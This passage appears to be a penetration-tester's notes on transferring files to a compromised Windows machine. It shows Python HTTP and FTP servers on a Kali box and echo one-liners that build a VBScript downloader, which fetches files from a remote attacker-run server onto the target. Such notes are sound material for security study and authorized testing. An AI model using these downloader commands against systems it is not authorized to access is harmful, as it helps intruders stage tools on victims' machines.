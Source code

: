*NOTE* There are MANY more ways to move files back and forth between a Windows machine, most can be found on the LOLBAS project:
https://lolbas-project.github.io/

Most of these will require that we create a simple local webserver on our Kali box to sevre the files (NOTE: I have had issues running this command within TMUX for whatever reason... so dont run it in TMUX).
I like to use the Python Simple HTTP Server:
```
root@kali:~/Documents/Exploits/WindowsPRIVZ# python -m SimpleHTTPServer 80
```
Or the Python pyftpdlib FTP Server (again don't run from TMUX):
```
apt-get install python-pyftpdlib
root@kali:~/Documents/Exploits/WindowsPRIVZ# python -m pyftpdlib -p 21
```

### Uploading Files with VBScript  
In my experiance, VBScript is one of the easiest methods of transfering files to a remote Windows. The only downside is that the file size you can transfer is rather limited.  I often have trouble transfering anything over 1 MB using this method and have to fall back on other methods (Windows-privesc-check2.exe is much too large to transfer using this method).  
First lets test to see if we can run VBScript  
```
echo WScript.StdOut.WriteLine "Yes we can run vbscript!" > testvb.vbs
```
Now we run it to see the results:  
```
cscript testvb.vbs
```
If you see the following message, we are good to go with VBScript!:  
```
C:\Users\Test>cscript testvb.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

Yes we can run vbscript!
```
If you see the following messages, you should move on to PowerShell:  
```
C:\temp>cscript testvb.vbs
This program is blocked by group policy. For more information, contact your system administrator.
C:\temp>testvb.vbs
Access is denied.
```

Now we can create a very simple downloader script by copying and pasting this single line of code into your windows commandline. I have tried to create a VBS script to download files from a remote webserver with the least possible number of lines of VBS code and I believe this is it.
If Windows is an older version of windows (Windows 8 or Server 2012 and below) use the following script:
```
CMD C:\> echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs & echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs & echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
```
If Windows is a newer version (Windows 10 or Server 2016), try the following code:
```
CMD C:\> echo dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.6.0")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs &echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs &echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
```
